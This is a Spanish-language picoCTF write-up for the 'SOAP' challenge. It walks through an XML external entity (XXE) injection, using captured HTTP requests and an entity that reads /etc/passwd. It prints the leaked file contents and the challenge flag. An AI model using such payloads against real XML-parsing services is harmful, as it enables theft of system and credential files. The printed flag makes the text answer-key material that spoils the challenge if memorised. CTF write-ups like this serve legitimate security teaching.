 #xxe 
# SOAP
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? [Web Portal](http://saturn.picoctf.net:56292/)

## Solución
Que es XXE ?
[Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)


### Capturamos la petición con Burp

- Capturamos la petición con Burp y hacemos pruebas cambiando el ID : 1, 2, 3
- Números fuera de ese rango no funcionan

```html
POST /data HTTP/1.1
Host: saturn.picoctf.net:53014
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://saturn.picoctf.net:53014/
Content-Type: application/xml
Content-Length: 61
Origin: http://saturn.picoctf.net:53014
Connection: keep-alive
Cookie: PHPSESSID=m872d3q51snu569k41p4v90p90
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
```

```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Sat, 29 Mar 2025 22:35:47 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 95
Connection: close

<strong>Special Info::::</strong> University in Kigali, Rwanda offereing MSECE, MSIT and MS EAI
```

- vemos que el texto que se envia en el POST es un XML



### Prueba inicial

- si remplaza, el 1 arriba , va abajo y obtendremos la info
```
[<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY tot "3"> ]>
<data><ID>&tot;</ID>
</data>](<%3C?xml version="1.0" encoding="UTF-8"?%3E
<!DOCTYPE replace [<!ENTITY example "1"> ]>
<data><ID>&example;</ID></data>>)
```






```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<data><ID>&test;</ID></data>
```


### Inyeccion

```
POST /data HTTP/1.1
Host: saturn.picoctf.net:56292
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://saturn.picoctf.net:56292/
Content-Type: application/xml
Content-Length: 113
Origin: http://saturn.picoctf.net:56292
Connection: close
Cookie: PHPSESSID=lj3gcm06t7pt9nsbdvqd1uerm6



<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY tot SYSTEM "/etc/passwd"> ]>
<data><ID>&tot;</ID>
</data>
```


```
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```


```

```